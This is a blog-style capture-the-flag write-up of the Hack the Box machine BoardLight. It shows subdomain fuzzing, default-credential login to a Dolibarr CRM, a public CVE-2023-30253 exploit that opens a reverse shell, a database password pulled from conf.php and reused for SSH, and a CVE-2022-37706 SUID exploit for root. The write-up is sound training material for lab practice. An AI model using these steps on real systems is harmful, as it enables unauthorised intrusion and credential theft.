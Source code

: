 ```yaml
---
draft: false
title: "Hack the Box #4 - BoardLight w/o Metasploit"
date: 2024-08-08
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
cover:
  image: hack_the_box_4_boardlight.png
  alt: hack_the_box_4_boardlight.png
---
```

This evening I felt like cutting my teeth a little bit more. So lets spin up this box and give it a poke.

## Enumeration 

Kicking of this baby with an nmap
![https://i.imgur.com/EOD1dhH.png](https://i.imgur.com/EOD1dhH.png#center)

In doing so we find port 22 and 80 are the only ones open. _I did a full port scan after to the avail of no extra dice_

Browsing the website we don't find much. All links are get requests to the server so nothing there. We do get the website URL however _**Board.htb**_ that we can add to our hosts file.

So lets see what they aren't showing us with a little bit of directory brute forcing with gobuster…

![https://i.imgur.com/TyAgDp1.png](https://i.imgur.com/TyAgDp1.png#center)

Nothing of to much interest. How about subdomains? FUFF!!!! Weirdly when I started out, FUFF would give me all or nothing.

```bash
# All the errors
ffuf -w /usr/.....top100000.txt -u <http://FUZZ.permx.htb> -mc 200 -o ffuf.scan

# Or All the 200s 
ffuf -w /usr/.....top100000.txt -u http://IP_ADDRESS -H "Host: FUZZ.DOMAIN_URL" -mc 200 -o ffuf.scan
```

This had me stumped for longer then I would care to admit… until I discovered a glorious FUFF feature that I’m kicking myself for not knowing `-ac` Auto calibration. Oh where have you been all my life! Once we apply that flag a subdomain pops out in a matter of seconds `crm.board.htb`

![https://i.imgur.com/qE876A5.png](https://i.imgur.com/qE876A5.png#center)

Now we are cooking, with a sus login portal. Looking into the known exploits for this software, we find this git repo [CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253) but this requires authentication… Default creds for this tool are **admin/admin** but that wont work right… right?!

### Exploitation 

Well the creds work, though the permissions seem to be removed, but no matter.
```bash
└─$ python3 exploit.py <http://crm.board.htb> admin admin 10.10.14.62 4444
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection
```

And with that we have a cheeky reverse shell. Looking at the home file we find the user ***larissa***. But lets keep digging in what this dolibarr is… after some googling we find this little nugget of info about the [Configuration file](https://wiki.dolibarr.org/index.php?title=Configuration_file) and can be found at **conf/conf.php**. Whacking this badboy with a grep for db
```bash
<crm.board.htb/htdocs/conf$ cat conf.php | grep "db"  
...
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
...
```
We got a password… Would this work against the user?

```bash
└─$ ssh larissa@10.10.11.11    
larissa@boardlight:~$ cat user.txt
============ USER_FLAG ============
```

oh baby!

### Privilege Escalation

Now to start the enumeration of the box. Lets push **linpeas** onto this badboy and run that. In do so Linpeas finds some interesting files with permissions

```bash
...
══════════════════════╣ Files with Interesting Permissions ╠══════════════════════                                                                   
                      ╚════════════════════════════════════╝                                                                                         
╔══════════╣ SUID - Check easy privesc, exploits and write perms
╚ <https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid>                                                                     
-rwsr-xr-x 1 root root 15K Jul  8  2019 /usr/lib/eject/dmcrypt-get-device                                                                            
-rwsr-sr-x 1 root root 15K Apr  8 18:36 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID binary!)                                
...
```

and one cursory google search away and we find this cheeky [PrivEsc](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh), pushing it onto the box

```bash
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can\'t find in /etc/fstab.
# whoami
root
# cat /root/root.txt
============ ROOT_FLAG ============
```

With that we are done with both flags in the bag. Its time to treat myself with going outside and touching grass... Just one blade
![Grass.png](https://i.giphy.com/media/v1.Y2lkPTc5MGI3NjExdHZiaHY2ZjcwbXEycXp1dnp5cXV5aG5peWtnMWRtODhkaTd0dWQ0NyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/jVk5ebwWGahBS/giphy.gif#center)

Oh and the [rubber stamp](https://www.hackthebox.com/achievement/machine/1695260/603) from hack the box